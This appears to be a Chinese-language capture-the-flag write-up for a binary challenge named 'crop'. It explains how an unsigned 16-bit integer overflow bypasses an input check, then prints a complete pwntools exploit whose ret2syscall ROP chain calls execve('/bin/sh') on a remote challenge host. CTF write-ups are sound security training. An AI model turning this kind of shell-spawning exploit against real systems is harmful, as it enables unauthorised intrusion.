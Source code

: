 # crop

本题的考点是：
- 整数溢出
- ret2syscall

首先需要输入一个数字c，让初始为114的b加上c不能小于514，最后a=b进行赋值，要求a<0

但是这里的b和c都是uint16，而a是int16，所以存在整数溢出的问题

如果我们输入的c是-115，那么b+=c之后b成为了-1，但是由于uint16是无符号数，被解析后是65535，所以一定是大于514的

这样第一关就过了，之后就是简单的ret2syscall。

```python
payload = 'some padding...'
payload += p64(pop_rax_ret) + p64(59)   # rax 59
payload += p64(pop_rdi_ret) + p64(next(elf.search(b"/bin/sh\x00")))   # rdi
payload += p64(pop_rsi_ret) + p64(0)   # rsi
payload += p64(pop_rdx_ret) + p64(0)   # rdx
payload += p64(syscall) # execve("/bin/sh\x00",NULL.NULL)
```

所以完整的exp如下：

```python
from pwn import *

context.arch = "amd64"
DEBUG = 0

elf = ELF("../file/crop")
io = process("../file/crop") if DEBUG else remote("101.34.90.86", 20002)


io.sendlineafter("114", "-115") # 让b成为-1，uint16下的-1是65535，大于514

pop_rax_ret = 0x000000000040130a
pop_rdi_ret = 0x0000000000401304
pop_rdx_ret = 0x0000000000401308
pop_rsi_ret = 0x0000000000401306
ret = 0x000000000040101a
syscall = 0x000000000040130c

payload = b"b"*0x80 # padding stack
payload += b"woodwood"  # padding rbp
payload += p64(pop_rax_ret) + p64(59)   # rax 59
payload += p64(pop_rdi_ret) + p64(next(elf.search(b"/bin/sh\x00")))   # rdi
payload += p64(pop_rsi_ret) + p64(0)   # rsi
payload += p64(pop_rdx_ret) + p64(0)   # rdx
payload += p64(syscall) # execve("/bin/sh\x00",NULL.NULL)

io.sendlineafter("ok?", payload)

io.interactive()
```